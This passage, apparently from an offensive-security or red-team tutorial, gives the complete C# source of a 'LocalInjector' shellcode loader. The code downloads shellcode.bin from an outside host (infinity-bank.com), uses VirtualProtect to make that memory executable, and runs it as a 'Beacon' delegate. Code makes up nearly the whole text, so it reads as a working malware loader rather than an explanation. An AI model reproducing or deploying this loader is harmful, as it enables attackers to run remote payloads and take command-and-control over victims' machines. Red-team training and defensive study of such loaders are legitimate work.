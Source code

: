 Then call GetDelegateForFunctionPointer which will return the delegate as a local variable. That variable can be executed like a method:

```
var beacon = Marshal.GetDelegateForFunctionPointer<Beacon>((IntPtr)ptr);
beacon()
```

Complete Code:

```
using System;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace LocalInjector
{
    internal class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        delegate void Beacon();

        [DllImport("kernel32.dll")]
        static extern unsafe bool VirtualProtect(
            byte* lpAddress,
            uint dwSize,
            MEMORY_PROTECTION flNewProtect,
            out MEMORY_PROTECTION lpflOldProtect);

        enum MEMORY_PROTECTION : uint
        {
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
            PAGE_READWRITE = 0x04
        }

        static async Task Main(string[] args)
        {
            byte[] shellcode;
            using (var client = new HttpClient())
            {
                client.BaseAddress = new Uri("https://www.infinity-bank.com");
                shellcode = await client.GetByteArrayAsync("/shellcode.bin");
            }

            unsafe
            {
                fixed (byte* ptr = shellcode)
                {
                    VirtualProtect(
                        ptr,
                        (uint)shellcode.Length,
                        MEMORY_PROTECTION.PAGE_EXECUTE_READWRITE,
                        out _);

                    var beacon = Marshal.GetDelegateForFunctionPointer<Beacon>((IntPtr)ptr);
                    beacon();
                }
            }
        }
    }
}
```
